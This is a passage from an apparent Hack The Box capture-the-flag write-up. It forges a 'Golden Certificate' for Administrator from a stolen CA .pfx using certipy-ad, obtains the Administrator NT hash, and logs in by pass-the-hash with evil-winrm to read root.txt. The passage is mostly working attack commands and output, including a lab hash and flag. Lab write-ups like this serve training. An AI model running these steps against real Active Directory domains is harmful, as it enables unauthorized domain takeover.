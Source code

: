 We downloaded the `certificate.pfx` and forged the `Golden Certificate` with the `UPN` set to `Administrator`.

```cmd
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> download certificate.pfx
                                        
Info: Downloading C:\Users\Ryan.K\Documents\certificate.pfx to certificate.pfx
                                        
Info: Download successful!
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certificate/files]
└─$ certipy-ad forge -ca-pfx certificate.pfx -upn 'Administrator@certificate.htb' -subject 'CN=ADMINISTRATOR,CN=USERS,DC=CERTIFICATE,DC=HTB'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Saving forged certificate and private key to 'administrator_forged.pfx'
[*] Wrote forged certificate and private key to 'administrator_forged.pfx'
```

After we `authenticated` ourselves against the `Domain Controller` we received the `hash` for `Administrator` and by using `Pass-the-Hash (PtH)` we were able to login and to grab the `root.txt`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certificate/files]
└─$ certipy-ad auth -pfx administrator_forged.pfx -dc-ip 10.129.37.186       
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'Administrator@certificate.htb'
[*] Using principal: 'administrator@certificate.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certificate.htb': aad3b435b51404eeaad3b435b51404ee:d804304519bf0143c14cbf1c024408c6
```

```shell
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i certificate.htb -u 'Administrator' -H d804304519bf0143c14cbf1c024408c6
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

## root.txt

```shell
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
d51239cdbf3e639bba070d5b6b8c3c63
```
